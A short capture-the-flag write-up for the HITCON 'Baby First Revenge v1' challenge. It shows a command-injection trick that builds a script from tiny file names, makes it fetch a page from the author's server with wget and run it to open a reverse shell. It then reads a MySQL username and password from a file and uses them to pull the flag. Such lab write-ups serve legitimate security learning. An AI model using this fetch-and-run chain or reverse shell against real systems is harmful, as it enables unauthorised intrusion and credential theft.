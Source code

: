 Baby First Revenge v1

```
>echo
>wg\
*>.a
rm w*
>et
>ka\
*>>.a
rm e*
rm k*
>echo
>ibr\
*>>.a
rm i*
>o.t\
*>>.a
rm o*
>w
*>>.a
```

and then `sh .a`

it will `wget kaibro.tw`

and download the `index.html`

we can put reverse shell script into index.html on my server

`sh i*`

then we got reverse shell


cat /home/fl4444g/README.txt
```
Flag is in the MySQL database
fl4444g / SugZXUtgeJ52_Bvr
```


$ mysql -u fl4444g -p

Enter password: SugZXUtgeJ52_Bvr

use fl4gdb;

select * from this_is_the_fl4g;

`hitcon{idea_from_phith0n,thank_you:)}`
